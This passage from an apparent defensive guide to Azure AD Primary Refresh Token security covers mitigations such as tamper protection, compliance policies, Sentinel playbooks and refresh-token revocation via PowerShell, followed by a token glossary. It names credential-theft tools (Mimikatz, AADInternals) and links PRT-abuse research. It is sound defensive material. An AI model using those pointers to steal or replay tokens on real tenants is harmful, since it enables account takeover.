- [Enable “tamper protection”](https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide) to protect your client’s security settings (such as threat protection and real-time AV)
    - To hide tracks the bad actors would like to disable security features, such as antivirus protection, on organization devices. To address this challenge it’s recommended to use tamper protection that prevents from taking actions such as:
    - Disabling virus and threat protection
    - Disabling real-time protection
    - Turning off behavior monitoring
    - Disabling antivirus protection, such as IOfficeAntivirus (IOAV)
    - Disabling cloud-delivered protection
    - Removing security intelligence updates
    - Disabling automatic actions on detected threats
- Create a device compliance policy to require [“Microsoft Defender Antimalware” and Defender “Real-time protection”](https://docs.microsoft.com/en-us/mem/intune/protect/compliance-policy-create-windows#defender) and enforce the compliance check without a grace period (immediately).
- [Require a minimal Machine Risk Score](https://docs.microsoft.com/en-us/mem/intune/protect/compliance-policy-create-windows#microsoft-defender-for-endpoint-rules) in Device Compliance Policy without a long “Grace Period”
    - Use a unique attribute on the device object which will be updated as soon an endpoint is on- or offboarded. This can be used as a dynamic group filter to build an assignment for Device Compliance policy to require a machine risk score. Otherwise, the device compliance will fail.
    - Consideration in Privileged Access Device scenarios, such as Secure Admin Workstation (SAW) or Privileged Access Workstation (PAW): Require the device to be under a ‘clear’ machine risk score. If changes in compliance policies are enforced immediately the changes are valid in a 5min timeframe (based on our tests).
- Actively monitor your endpoints to detect malicious credential theft tools (such as Mimikatz & AADInternals)
- Run a Microsoft Sentinel playbook to ‘[isolate device](https://github.com/Azure/Azure-Sentinel/tree/master/Playbooks/Isolate-MDEMachine)’ if suspicious activity has been detected
- A list of [logged on users on the affected device](https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/get-machine-log-on-users?view=o365-worldwide) can be received by calls to the Microsoft 365 Defender API. This should be executed as part of a Microsoft Sentinel Playbook to initialize SOAR actions when offensive identity theft tools have been detected on the endpoint.

### Automated response to identity risk detection



- Azure AD Identity Protection (IPC) receives PRT detection from MDE if both solutions are deployed. In this scenario, user risk is raised as high severity and it depends on Conditional Access policies what happens next (password change/block).
    - Implement a Conditional Access policy with end-user ability to perform auto-remediation but also verify the security of the chosen recovery method.
- Implement a process to revoke refresh tokens, in case of user-initialized incidents (lost or stolen devices) and if true-positive and verified security incident of anomalous tokens, cloud session activity or attempts to access PRT has been detected.
    - Revoke RT explicitly to have a CAE critical event that is supported by all CAE-capable apps.
    - Consider in a high-risk IPC incident to implement an explicit revocation of all refresh tokens by [SOAR action (Microsoft Sentinel Playbook)](https://github.com/Azure/Azure-Sentinel/tree/master/Playbooks/Revoke-AADSignInSessions) or Administrators manually (by using PowerShell).
        
        ```powershell
        
        Revoke-AzureADUserAllRefreshToken -ObjectId johndoe@contoso.com
        Get-AzureADUserRegisteredDevice -ObjectId johndoe@contoso.com | Set-AzureADDevice -AccountEnabled $false
        ```
        
    - If you confirm that a user has been compromised the account can be marked ‘as compromised’ from M365D/IPC and disabled from on-prem Active Directory through the MDI action account feature.
        - This raises user risk as high severity and it depends on Conditional Access policies on what happens next (password change/block).
    - Use the ‘Suspend User’ feature to disable the account in Azure AD (triggers CAE).
        - In a hybrid identity scenario take into account AAD Connect and user sync. ‘UserAccountControl’ attribute sets the user state and if the user is disabled only in AAD, in the next AAD Connect sync cycle the attribute is overwritten and the user account is enabled again.
    - Use the MDI action account feature to disable the Active Directory user if a compromised account has been detected.
        - When deployed, pay attention to on-prem Active Directory delegations (permissions). Sander Berkouwer has written an excellent blog on how to programmatically assign permissions - [HOWTO: Programmatically add a Microsoft Defender for Identity Action Account to Active Directory - The things that are better left unspoken (dirteam.com)](https://dirteam.com/sander/2022/03/23/howto-programmatically-add-a-microsoft-defender-for-identity-action-account-to-active-directory/)
- Evaluate and implement [“Microsoft Sentinel Fusion” rules](https://docs.microsoft.com/en-us/azure/sentinel/fusion-scenario-reference#malicious-credential-theft-tool-execution-following-suspicious-sign-in) that indicate e.g. that someone used known identity theft tools in combination with a suspicious Azure AD sign-in (Sign-in risk by Identity Protection).
- Implement “every time” sign-in frequency on device registration, sign-in, and user risk:
- [Restrict user consent](https://docs.microsoft.com/en-us/azure/active-directory/manage-apps/configure-user-consent?tabs=azure-portal) and implement [OAuth app policies](https://docs.microsoft.com/en-us/defender-cloud-apps/app-permission-policy) in Microsoft Defender for Cloud Apps (with governance actions to disable app) to prevent abuse of tokens by malicious registered apps

**Side notes and research results**

- Revoking of all refresh tokens with Microsoft Sentinel playbook requires an application with high privileged permission to be registered to Azure AD.
    - Permissions needed to invalidate refresh tokens through ‘revokeSignInSessions’ endpoint are ‘Directory.ReadWrite.All’ & ‘User.ReadWrite.All’
    - Because these are ‘Application’ type of permissions where signed user doesn’t need to be present these are one of the highest permissions that can be granted to Azure AD
    - Deep diver about Azure AD Consent Framework including: attack paths, detections & mitigations - [AzureAD-Attack-Defense/ConsentGrant.md at main · Cloud-Architekt/AzureAD-Attack-Defense (github.com)](https://github.com/Cloud-Architekt/AzureAD-Attack-Defense/blob/main/ConsentGrant.md)
        
        
        
        
        
## Appendix

### Research work on Primary Refresh Token (PRT)

[Abusing Azure AD SSO with the Primary Refresh Token - dirkjanm.io](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/)

[Digging further into the Primary Refresh Token - dirkjanm.io](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/)

[#RomHack2021 - Dirk-jan Mollema - Breaking Azure AD joined endpoints in zero-trust environments - YouTube](https://www.youtube.com/watch?v=OigKnI68Sfo)

### Used tools and references

#### Offensive Tools related to Primary Refresh Token (PRT)

[AAD Internals (o365blog.com)](https://o365blog.com/aadinternals/#set-aadintpasswordhashsyncenabled-a)

Glossary of Tokens in Microsoft Cloud Ecosystem

More information and descriptions of different tokens are found in Microsoft docs documentation - [Microsoft identity platform access tokens - Microsoft identity platform | Microsoft Docs](https://docs.microsoft.com/en-us/azure/active-directory/develop/access-tokens)

#### Access Token

Access tokens enable clients to securely call protected web APIs, and are used by web APIs to perform authentication and authorization.

#### Refresh Token

When a client acquires an access token to access a protected resource, the client also receives a refresh token. The refresh token is used to obtain new access/refresh token pairs when the current access token expires.

Protection of refresh token in [browser cookies](https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token#how-are-app-tokens-and-browser-cookies-protected):
“The security is built not only to protect the cookies but also the endpoints to which the cookies are sent. Browser cookies are protected the same way a PRT is, by utilizing the session key to sign and protect the cookies.”

#### ID Token

The ID token is the core extension that OpenID Connect makes to OAuth 2.0. ID tokens are issued by the authorization server and contain claims that carry information about the user. They can be sent alongside or instead of an access token. Information in ID Tokens allows the client to verify that a user is who they claim to be.

#### Primary Refresh Token (PRT)

Is a key artifact of Azure AD authentication on Windows 10 or newer, Windows Server 2016 and later versions, iOS, and Android devices. It is a JSON Web Token (JWT) specially issued to Microsoft first-party token brokers to enable single sign-on (SSO) across the applications used on those devices. 

It’s only issued to registered devices such as Azure AD joined, Hybrid Azure AD joined or Azure AD registered device. No evaluation of conditional access policy to get a PRT.

### Cryptographic key pairs during Device Registration (to protect PRT)

[Protection of keys on a Windows device](https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token#how-is-a-prt-issued)

#### Transport Key (tkpub/tkpriv) & Device Key (dkpub/dkpriv)

The private keys are bound to the device’s TPM if the device has a valid and functioning TPM, while the public keys are sent to Azure AD during the device registration process. These keys are used to validate the device state during PRT requests.

#### Nonce

Nonce binds client and token which prevents token replay attacks.

#### Session Key

The session key is an encrypted symmetric key, generated by the Azure AD authentication service, and issued as part of the PRT. The session key acts as the proof of possession when a PRT is used to obtain tokens for other applications.
Session key protection (both PRT & app tokens + browser cookies):
By securing these keys with the TPM, we enhance the security for PRT from malicious actors trying to steal the keys or replay the PRT. So, using a TPM greatly enhances the security of Azure AD Joined, Hybrid Azure AD joined, and Azure AD registered devices against credential theft.

### Session and token management in Azure AD

#### Token lifetime

PRT: 14 days
RT: up to 90 days
AT: 1h, [CAE-enabled (named long lived token lifetime](https://docs.microsoft.com/en-us/azure/active-directory/develop/access-tokens#access-token-lifetime)) ranges from 20 to 28 hours

You can't configure the lifetime of a refresh token. You can't reduce or lengthen their lifetime. Configure sign-in frequency in Conditional Access to define the time periods before a user is required to sign in again. Learn more about Configuring authentication session management with Conditional Access.

[Microsoft identity platform refresh tokens - Microsoft identity platform | Microsoft Docs](https://docs.microsoft.com/en-us/azure/active-directory/develop/refresh-tokens)

#### Revocation

[Primary Refresh Token (PRT) and Azure AD - Azure Active Directory | Microsoft Docs](https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token#how-is-a-prt-invalidated)
